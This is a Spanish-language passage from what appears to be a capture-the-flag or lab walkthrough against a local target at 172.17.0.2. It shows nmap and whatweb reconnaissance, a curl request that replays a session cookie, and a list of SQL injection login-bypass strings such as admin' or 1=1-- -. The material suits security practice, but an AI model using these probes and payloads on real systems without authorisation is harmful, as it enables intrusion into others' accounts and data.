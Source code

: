 ### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p80 172.17.0.2 -oN targeted
```

**Servicios identificados:**
```bash
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
```
---

## Enumeracion de [Servicio Web Principal]
direccion **URL** del servicio:
```bash
http://172.17.0.2
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2/
http://172.17.0.2/ [403 Forbidden] Apache[2.4.62], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[172.17.0.2]
```

Ahora como no tenemos permitido el accesoa ese recurso ya que nos retorna un codigo de estado **403Forbidden** El servidor entiende la solicitud, pero se niega a autorizarla.
Veremos como reacciona la web desde el comando **curl**:
Usamos la cookie que por defecto nos da el navegador:
```bash
curl -siL -X GET -H "Cookie: PHPSESSID=itqe4j2g66v5bchb40lsl3dmuj" http://172.17.0.2
```

Tenemos la respuesta:
```bash
HTTP/1.1 200 OK
Date: Wed, 25 Jun 2025 23:40:16 GMT
Server: Apache/2.4.62 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1839
Content-Type: text/html; charset=UTF-8
```

Ahora si vuelvo a recargar nos carga un panel de login:
```bash
http://172.17.0.2/
```

### SQLInjection:
Primero probaremos inyeciones **SQL** en este panel de inicio de sesion:
**SQLQueryes** probadas
```bash
'
admin'
admin' or 1=1-- -
admin' or '1'='1-- -
admin\' or '1'='1-- -
'--
admin' AND 1=0-- -
```

